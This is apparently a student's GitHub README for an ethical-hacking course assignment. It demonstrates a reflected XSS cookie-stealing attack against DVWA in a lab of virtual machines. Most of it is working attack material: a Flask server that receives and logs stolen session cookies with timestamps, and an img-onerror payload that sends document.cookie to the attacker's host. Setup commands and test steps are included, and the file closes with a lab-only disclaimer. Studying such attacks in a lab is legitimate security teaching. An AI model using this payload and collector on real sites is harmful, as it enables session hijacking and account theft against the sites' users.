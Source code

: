 # Cookie-Stealer

🕵️ Cookie Stealer via Reflected XSS | CSCI369 Ethical Hacking Assignment (Q2)  
This project demonstrates a reflected XSS attack to steal session cookies from a vulnerable web application (DVWA) and send them to a Flask server running on the attacker's Kali Linux machine.

---

## 📘 Assignment Objective  
"Write a Python program to receive a session cookie via a JavaScript XSS injection and save it with a timestamp. Use Flask on Kali to log cookies sent from DVWA (on Meta2)."

---

## 💻 What This Project Does  
This project performs a simulated XSS attack in a controlled lab setup. You inject JavaScript into DVWA (hosted on Meta2) that runs in the victim’s browser and sends `document.cookie` to a Flask server running on Kali Linux. The Flask app listens on port 8080 and writes the stolen cookie to a file with a timestamp.

---

## 🧪 Lab Setup  

| VM             | Role     | Example IP   |
|----------------|----------|--------------|
| Kali Linux     | Attacker | 10.0.2.15    |
| Meta2 (DVWA)   | Victim   | 10.0.2.4     |


---

## 🔧 How to Run the Flask Server  

### 💡 Prerequisites  
- Kali Linux VM with Python 3 and Flask installed  
- Meta2 VM with DVWA accessible at http://10.0.2.4/dvwa  
- Both VMs on the same NAT network

---

## ▶️ Flask Setup (on Kali)  
```bash
sudo apt update
sudo apt install python3-venv -y

mkdir ~/myproject
cd ~/myproject
python3 -m venv venv
source venv/bin/activate
pip install Flask

# Save the stealer.py file below and run it:
python3 stealer.py
```

---

## 📄 Flask Code (stealer.py)  
```python
# ================================================
# 🍪 Cookie Stealer Flask Server – CSCI369 Assignment Q2
# Sheethal Santhanam (Kali IP: 10.0.2.15)
# Description:
# This Flask app runs on the attacker's Kali VM.
# It receives cookies via an XSS payload from DVWA (Meta2 VM),
# then logs those cookies with a timestamp to cookies.txt.
# ================================================

from flask import Flask, request              # Flask handles incoming web requests
from datetime import datetime                 # Used to generate timestamps

# Initialize the Flask application
app = Flask(__name__)

# Define a route to receive GET requests at the root URL ("/")
@app.route('/')
def steal_cookie():
    # Try to extract the 'cookie' parameter from the URL query string
    cookie = request.args.get('cookie')

    # If a cookie value is received, process it
    if cookie:
        # Get the current date and time in a readable format
        timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S")

        # Append the cookie and timestamp to a file named cookies.txt
        with open("cookies.txt", "a") as f:
            f.write(f"[{timestamp}] Cookie: {cookie}\n")

        # Send a basic response (victim won't see this during attack)
        return "Cookie received!"

    # If no cookie parameter was found in the request
    return "No cookie found."

# Start the Flask server:
# - host='0.0.0.0' allows connections from outside (Meta2 VM)
# - port=8080 is the server port the attacker listens on
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

---

## 💉 JavaScript XSS Payload (xss_payload.txt)  
```html
<img src=x onerror="new Image().src='http://10.0.2.15:8080/?cookie='+document.cookie;">
```

---

## 📌 How to Test the Cookie Stealing Attack  
1. Run Flask server on Kali  
2. Visit DVWA at http://10.0.2.4/dvwa (from Kali browser)  
3. Login: admin / password  
4. Set DVWA Security to "Medium"  
5. Navigate to "XSS (Reflected)"  
6. Paste the payload above and click Submit  
7. In another Kali terminal:  
```bash
cd ~/myproject
cat cookies.txt
```

✅ You should see something like:  
```
[2025-07-25 18:43:01] Cookie: PHPSESSID=xyz123; security=medium
```

---

## 🧠 How It Works  
- The JavaScript runs inside DVWA and extracts `document.cookie`  
- It silently sends the cookie via HTTP GET to the attacker’s Flask server  
- The server logs the cookie in `cookies.txt` with a timestamp

---

## 📁 Folder Structure  
```
Q2/
├── stealer.py         # Flask server script
├── xss_payload.txt    # Final JavaScript payload
├── README.txt         # This file
```

---

## 🛑 Disclaimer  
This project is for educational purposes only in a controlled lab environment.  
Never perform XSS attacks on real-world systems.  
Unauthorized access is illegal.
